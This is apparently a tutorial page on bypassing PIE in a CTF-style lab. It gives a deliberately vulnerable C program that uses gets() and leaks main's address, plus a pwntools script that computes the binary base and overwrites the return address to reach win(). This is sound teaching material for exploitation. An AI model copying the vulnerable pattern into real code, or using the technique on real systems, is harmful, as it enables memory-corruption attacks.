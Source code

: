 ```yaml
---
description: Exploiting PIE with a given leak
---
```


# PIE Bypass with Given Leak

## The Source

{% file src="../../.gitbook/assets/pie-32.zip" caption="PIE - 32-bit" %}

```c
#include <stdio.h>

int main() {
    vuln();

    return 0;
}

void vuln() {
    char buffer[20];

    printf("Main Function is at: %lx\n", main);

    gets(buffer);
}

void win() {
    puts("PIE bypassed! Great job :D");
}
```

Pretty simple - we print the address of `main`, which we can read and calculate the base address from. Then, using this, we can calculate the address of `win()` itself.

## Analysis

Let's just run the script to make sure it's the right one :D

```text
$ ./vuln-32 
Main Function is at: 0x5655d1b9
```

Yup, and as we expected, it prints the location of `main`.

## Exploitation

First, let's set up the script. We create an `ELF` object, which becomes very useful later on, and start the process.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

Now we want to take in the `main` function location. To do this we can simply receive up until it \(and do nothing with that\) and then read it.

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

{% hint style="info" %}
Since we received the entire line except for the address, only the address will come up with `p.recvline()`.
{% endhint %}

Now we'll use the `ELF` object we created earlier and set its base address. The `sym` dictionary returns the offsets of the functions from binary base until the base address is set, after which it returns the absolute address in memory.

```python
elf.address = main - elf.sym['main']
```

In this case, `elf.sym['main']` will return `0x11b9`; if we ran it again, it would return `0x11b9` + the base address. So, essentially, we're subtracting the offset of `main` from the address we leaked to get the base of the binary.

Now we know the base we can just call `win()`.

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```

{% hint style="info" %}
By this point, I assume you know how to find the padding length and other stuff we've been mentioning for a while, so I won't be showing you every step of that.
{% endhint %}

And does it work?

```text
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 4617
PIE bypassed! Great job :D
```

Awesome!

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```

## Summary

From the leak address of `main`, we were able to calculate the base address of the binary. From this we could then calculate the address of `win` and call it.

And one thing I would like to point out is how _simple_ this exploit is. Look - it's 10 lines of code, at least half of which is scaffolding and setup.

## 64-bit

Try this for yourself first, then feel free to check the solution. Same source, same challenge.

{% file src="../../.gitbook/assets/pie-64.zip" caption="PIE - 64-bit" %}

